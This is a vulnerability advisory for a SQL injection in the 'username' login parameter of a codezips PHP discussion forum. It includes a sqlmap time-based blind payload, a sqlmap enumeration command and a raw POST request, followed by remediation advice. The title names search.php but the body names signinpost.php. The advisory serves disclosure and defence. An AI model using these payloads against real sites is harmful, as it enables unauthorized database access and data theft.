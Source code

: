 # Technical Discussion Forum Using PHP With Source Code  V1.0 search.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Technical Discussion Forum Using PHP With Source Code V1.0`

## Vendor Homepage

- https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/

## Software Link

- https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the 'signinpost.php' file of  the 'Technical Discussion Forum Using PHP With Source Code ' project. The reason for this issue is that attackers inject malicious code from the parameter  'username' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  ![](./image/1.png)

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Technical Discussion Forum Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "signinpost.php" file. This vulnerability stems from insufficient  user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: Username Parameter

```
sqlmap resumed the following injection point(s) from stored session:
Parameter: username (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=test' AND (SELECT 7188 FROM (SELECT(SLEEP(5)))JiSV) AND 'CsMe'='CsMe&password=12323&submit=SignIn
```

<img src="./image/2.png" style="zoom:150%;" />

```
//sqlmap
python sqlmap.py -r url.txt --current-db --current-user --is-dba
```

```
poc
POST /signinpost.php HTTP/1.1
Host: 192.168.75.220
Content-Length: 42
Cache-Control: max-age=0
Origin: http://192.168.75.220
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.75.220/signin.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: metabase.DEVICE=e51030e7-51d8-429c-b737-59e6ee18ae6c; __test=1; PHPSESSID=9vhd24i6sjknqqcj80ddhqsbj3
Connection: close

username=test&password=12323&submit=SignIn
```

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.